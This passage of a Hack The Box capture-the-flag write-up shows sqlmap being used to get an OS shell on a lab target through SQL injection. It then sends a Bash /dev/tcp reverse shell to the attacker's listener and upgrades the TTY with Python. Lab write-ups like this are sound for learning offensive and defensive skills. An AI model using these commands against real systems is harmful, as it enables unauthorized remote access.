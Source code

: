 
The previous command identified the OS as Debian 10. Given this is a Windows
host according to HTB, this must be in a Docker container. The `id` command
returns as well:

    
    
    [14:10:45] [INFO] retrieved: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)'
    

The `--os-shell` flag will drop into an interactive prompt to run more than
one command as well:

    
    
    oxdf@parrot$ sqlmap -r login.request --force-ssl --batch --os-shell
    ...[snip]...
    [14:14:14] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
    os-shell>
    

### Shell

I’ll start `nc` and give `sqlmap` a Bash reverse shell to see if it works:

    
    
    os-shell> bash -c "bash -i >& /dev/tcp/10.10.14.14/443 0>&1"
    do you want to retrieve the command standard output? [Y/n/a] Y
    

It hangs here, but at `nc` there’s a shell:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.236] 51238
    bash: cannot set terminal process group (1008): Inappropriate ioctl for device
    bash: no job control in this shell
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$
    

Legacy Python is not installed, but Python3 is:

    
    
    postgres@bc56e3cc55e9:/$ python -V
    python -V
    bash: python: command not found
    postgres@bc56e3cc55e9:/$ python3 -V
    python3 -V
    Python 3.7.3
    

I’ll upgrade my shell using the standard trick:

    
    
    postgres@bc56e3cc55e9:/$ python3 -c 'import pty;pty.spawn("bash")'
    postgres@bc56e3cc55e9:/$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    postgres@bc56e3cc55e9:/$ 
    